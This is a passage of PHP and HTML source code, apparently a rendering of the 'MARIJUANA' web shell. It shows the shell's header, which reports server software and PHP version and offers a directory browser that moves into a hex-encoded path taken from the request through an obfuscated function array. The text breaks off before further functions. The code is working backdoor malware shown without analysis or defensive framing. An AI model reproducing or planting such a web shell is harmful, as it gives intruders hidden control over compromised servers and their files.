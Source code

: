 		<head>
			<meta charset="UTF-8">
			<meta name="robots" content="NOINDEX, NOFOLLOW">

				<title>MARIJUANA</title>

			<link rel="icon" href="//0x5a455553.github.io/MARIJUANA/icon.png" />
			<link rel="stylesheet" href="//0x5a455553.github.io/MARIJUANA/main.css" type="text/css">

			<script src="//ajax.googleapis.com/ajax/libs/jquery/3.3.1/jquery.min.js"></script>
			<script src="//cdnjs.cloudflare.com/ajax/libs/notify/0.4.2/notify.min.js"></script>
		</head>

		<body>
			<header>
				<div class="y x">
					<a class="ajx" href="<?php echo basename($_SERVER['PHP_SELF']);?>">
						MARIJuANA
					</a>
				</div>

				<div class="q x w">
					&#8212; DIOS &#8212; NO &#8212; CREA &#8212; NADA &#8212; EN &#8212; VANO &#8212;
				</div>
				
			</header>

			<article>
				<div class="i">
					<i class="far fa-hdd"></i>
					<?php echo $GNJ[0]();?>

					<br />

					<i class="far fa-lightbulb"></i> &thinsp;&thinsp;<b>SOFT  :</b> <?php echo $_SERVER['SERVER_SOFTWARE'];?> <b>PHP :</b> <?php echo $GNJ[1]();?>

					<br />

					<i class="far fa-folder"></i>
					
					<?php
					if(isset($_GET["d"])) {
						$d = uhex($_GET["d"]);
						$GNJ[2](uhex($_GET["d"]));
					}
					else {
						$d = $GNJ[3]();
					}
					$k = $GNJ[4]("/(\\\|\/)/", $d );
					foreach ($k as $m => $l) { 
						if($l=='' && $m==0) {
							echo '<a class="ajx" href="?d=2f">/</a>';
						}
						if($l == '') { 
							continue;
						}
						echo '<a class="ajx" href="?d=';
						for ($i = 0; $i <= $m; $i++) {
							echo hex($k[$i]); 
							if($i != $m) {
								echo '2f';
							}
						}
						echo '">'.$l.'</a>/'; 
					}
					?>
